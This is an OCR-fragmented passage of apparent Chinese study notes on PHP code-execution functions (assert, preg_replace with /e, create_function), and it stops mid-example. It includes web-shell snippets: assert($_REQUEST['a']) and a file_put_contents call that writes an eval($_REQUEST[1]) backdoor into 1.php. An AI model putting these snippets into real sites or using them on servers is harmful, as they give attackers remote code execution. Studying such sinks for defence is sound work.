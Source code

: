   
3.assert() 7.2版本后为语法结构  
  
assert  
($_REQUEST  
[  
'a'  
])  
:assert他只能执行单行  
,多行执行会报错assert可以通过写文件的方式来变成多行执行写文件然后执行  
,  
列如  
:  
file_put_contents  
(  
'1.php'  
,  
'<?php
eval($_REQUEST[1]);phpinfo();echo 1;?>'  
);  
  
  
4.preg_replace() 正则表达式
替换函数 ≤5.6  
  
正则表达式函数  
,  
/e他可以产生代码执行$a  
=  
'a'  
;echo  
preg_replace  
(  
'/a/e'  
,$_GET  
[  
8  
],$a  
);  
1.正则表达式  
2.待替换的值  
3.替换后的值这里如果传入的值是代码因为  
/e会直接执行结果不过要匹配的值跟替换的值要一致或匹配到  
  
  
5.create_function()  
  
$a   
=  
create_function  
(  
'$id'  
,  
'echo
$id;'  
)自定义函数$aecho  
$a  
(  
8  
);执行echo
$id  
;因为$id传参是  
8所以他会输出  
8$id在这里是形参  
而$a  
(  
8  